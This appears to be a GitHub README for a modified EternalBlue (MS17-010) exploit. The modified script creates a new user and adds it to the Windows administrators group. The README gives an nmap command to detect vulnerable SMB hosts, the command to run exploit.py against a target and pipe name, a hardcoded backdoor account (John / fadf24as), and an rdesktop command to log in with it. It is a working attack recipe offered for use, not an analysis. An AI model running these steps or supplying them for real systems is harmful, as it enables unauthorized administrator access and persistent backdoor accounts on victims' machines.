 # EternalBlue
I have changed the script for create a new user and add the user to administrator group

Detect the vulnerability
nmap --script smb-vuln-ms17-010 -p445 <target_ip>

How to run the exploit
python exploit.py <target_ip> <pipe_name>
once the user is created you can logged in to the system using rdesktop

 user    : John,
 password: fadf24as

rdesktop -u John -p fadf24as <target_ip>

